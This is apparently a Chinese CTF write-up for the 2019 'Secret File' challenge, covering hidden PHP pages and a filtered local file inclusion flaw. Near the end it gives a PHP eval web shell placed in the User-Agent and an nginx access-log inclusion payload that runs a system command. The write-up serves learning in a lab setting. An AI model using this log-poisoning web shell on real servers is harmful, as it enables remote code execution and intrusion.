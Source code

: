 ```yaml
---
sidebar: false
article: false
title: 极客大挑战 2019  Secret File
date: 2024-09-14 15:25:34
permalink: /pages/276200/
author: 
  name: the0n3
  link: https://the0n3.top
---
```



##  [极客大挑战 2019]Secret File

打开f12调试工具，看到页面源码存在文件`Archive_room.php`文件，访问

![arch](https://the0n3.top/medias/daily/secret/arch.png)

在`Archive_room.php`里的按钮点击后，跳转到了end.php。在调试工具网络里可以看到，这个过程请求了`action.php`，但是又跳到`end.php`了

![action](https://the0n3.top/medias/daily/secret/action.png)

一时手足无措了。看了大佬思路，发现可以bp抓包看这个过程的action.php，又学到了

![secr3t](https://the0n3.top/medias/daily/secret/secr3t.png)

抓包可以看到`action.php`页面有提示文件`secr3t.php`文件

访问secr3t.php，页面源码

```php
<?php
    highlight_file(__FILE__);
    error_reporting(0);
    $file=$_GET['file'];
    if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
        echo "Oh no!";
        exit();
    }
    include($file); 
//flag放在了flag.php里
?>
```

一个简单的文件包含，但是过滤了`../`、`tp`、`input`、`data`，。还可以包含日志，那就试试。注意日志包含写木马不能有错误，有错误日志就不能用了，只能重新开容器

UA(user-agent)：`<?php highlight_file(__FILE__);eval($_GET[1]);?>`

payload：`?file=/var/log/nginx/access.log&1=system('tac flag.php');`

![flag](https://the0n3.top/medias/daily/secret/flag.png)
